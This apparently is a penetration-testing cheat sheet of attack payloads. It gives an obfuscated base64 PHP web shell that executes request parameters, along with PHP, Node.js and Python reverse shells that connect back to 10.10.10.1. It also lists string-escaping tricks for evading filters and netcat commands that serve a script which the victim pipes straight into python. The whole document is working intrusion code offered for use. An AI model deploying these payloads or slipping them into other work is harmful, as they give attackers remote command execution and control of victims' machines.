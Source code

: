 ## PHP Command Execution

Payload: echo passthru($_REQUEST["cmd"])
```
<pre><?php eval(base64_decode('ZWNobyBwYXNzdGhydSgkX1JFUVVFU1RbImNtZCJdKTsg'));?></pre>
```
## PHP Reverse Shell

```
$sock=fsockopen("10.10.10.1",5555);
exec("/bin/sh -i <&3 >&3 2>&3");
```

## Node.js Reverse Shell

```
var net = require("net"), sh = require("child_process").exec("/bin/sh");
var client = new net.Socket();
client.connect(5555, "10.10.10.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

### Node.js notes

JavaScript strings can be escaped:

- hex encode: "/" -> "\\\\x2f" 

- unicode encode: "/" ->  "\\\\u002f"


## Python Reverse Shell

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.1",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

## Serve Reverse Shell Remotely

Wait for connect back on Kali

```
kali@kali:~$ nc -nlvp 5555
```

Serve the shell from Kali

```
kali@kali:~$ nc -nvlp 4444 < shell.py
```

Get the shell from Kali and execute it on Victim

```
joe@victim:~$ nc 10.10.10.1 4444 | python
```
